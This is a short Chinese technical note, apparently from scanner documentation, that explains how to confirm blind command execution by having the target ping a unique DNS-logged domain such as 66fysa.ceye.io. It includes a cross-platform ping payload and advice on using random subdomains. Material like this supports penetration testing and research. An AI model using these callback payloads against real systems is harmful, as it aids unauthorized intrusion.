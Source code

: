 

一种更好的方式是使用dns日志来判断命令是否执行，流程如下：

- 生成一个特殊的域名，如 66fysa.ceye.io
- 构造payload让目标机执行 ping 66fysa.ceye.io

登录dns服务后台，如果后台记录了该域名的dns查询记录，即证明目标存在命令执行。



使用`ping`命令的时候有个坑，大部分linux系统执行`ping xxxx`时候会一直ping下去，而不是win里面执行4次之后退出。 
解决方案：使用 `ping -n 3 xxx.com || ping -c 3 xxx.com` 可以解决该问题并保证兼容性。



实际情况中会遇到很多入口与出口不同的情况，即我们向主机A发送payload，但是主机B执行了我们的ping命令。这时我们dns日志中的IP与A的IP无法匹配，就会造成漏报。 

解决方案：为每次验证生成独立、随机的域名，如`[random].shiro.xxx.com`，在`[random]`处使用10位随机字符或者递增的数字。这样只要以该域名为准查找日志，即可同时匹配到入口和出口主机IP。